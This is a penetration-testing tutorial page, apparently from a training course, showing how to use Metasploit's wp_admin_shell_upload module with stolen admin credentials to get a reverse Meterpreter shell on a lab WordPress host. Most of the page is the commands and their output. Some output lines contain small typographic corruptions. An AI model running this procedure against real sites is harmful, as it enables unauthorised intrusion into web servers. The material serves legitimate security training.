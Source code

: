 
<h1>Attacking WordPress with Metasploit</h1>
<hr/>
<h2>Automating WordPress Exploitation</h2>
<p>We can use the  <span class="text-success" data-title="Metasploit Framework is an open-source tool for developing and executing exploit code against remote target machines." data-toggle="tooltip">Metasploit Framework (MSF)</span> to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.</p>
<p>We can quickly start <code>MSF</code> by issuing the following command:</p>
<h4>Starting Metasploit Framework</h4>
<pre><code class="language-shell-session">[!bash!]$ msfconsole
</code></pre>
<hr/>
<p>To obtain the reverse shell, we can use the <code>wp_admin_shell_upload</code> module. We can easily search for it inside <code>MSF</code>:</p>
<h4>MSF Search</h4>
<pre><code class="language-shell-session">msf5 &gt; search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
</code></pre>
<p>The number <code>0</code> in the search results represents the ID for the suggested modules. From here on, we can specify the module by its ID number to save time.</p>
<h4>Module Selection</h4>
<pre><code class="language-shell-session">msf5 &gt; use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) &gt;
</code></pre>
<hr/>
<h4>Module Options</h4>
<p>Each module offers different settings options that we can use to assign precise specifications to <code>MSF</code> to ensure the attack's success. We can list these options by issuing the following command:</p>
<h4>List Options</h4>
<pre><code class="language-shell-session">msf5 exploit(unix/webapp/wp_admin_shell_upload) &gt; options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:&lt;path&gt;'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host


Exploit target:

Id  Name
--  ----
0   WordPress
</code></pre>
<hr/>
<h2>Exploitation</h2>
<p>After using the <code>set</code> command to make the necessary modifications, we can use the <code>run</code> command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.</p>
<h4>Set Options</h4>
<pre><code class="language-shell-session">msf5 exploit(unix/webapp/wp_admin_shell_upload) &gt; set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) &gt; set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) &gt; set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) &gt; set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) &gt; run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter &gt; getuid
Server username: www—data (33)
</code></pre>
